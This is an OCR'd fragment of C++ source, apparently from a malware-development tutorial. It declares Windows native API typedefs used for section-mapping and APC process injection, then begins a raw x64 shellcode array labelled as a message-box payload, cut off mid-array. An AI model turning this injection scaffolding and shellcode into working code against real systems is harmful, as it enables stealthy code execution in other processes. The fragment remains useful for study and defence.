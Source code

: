 ```cpp
  HANDLE            ProcessHandle,
  PVOID*            BaseAddress,
  ULONG_PTR         ZeroBits,
  SIZE_T            CommitSize,
  PLARGE_INTEGER    SectionOffset,
  PSIZE_T           ViewSize,
  DWORD             InheritDisposition,
  ULONG             AllocationType,
  ULONG             Win32Protect
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE            ProcessHandle,
  PVOID             BaseAddress
);

// ZwClose
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);

// ZwQueueApcThread
typedef NTSTATUS(NTAPI* pZwQueueApcThread)(
  IN HANDLE               ThreadHandle,
  IN PIO_APC_ROUTINE      ApcRoutine,
  IN PVOID                ApcRoutineContext OPTIONAL,
  IN PIO_STATUS_BLOCK     ApcStatusBlock OPTIONAL,
  IN ULONG                ApcReserved OPTIONAL
);

// ZwSetInformationThread
typedef NTSTATUS(NTAPI* pZwSetInformationThread)(
  _In_ HANDLE             ThreadHandle,
  _In_ THREADINFOCLASS    ThreadInformationClass,
  _In_ PVOID              ThreadInformation,
  _In_ ULONG              ThreadInformationLength
);

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
```
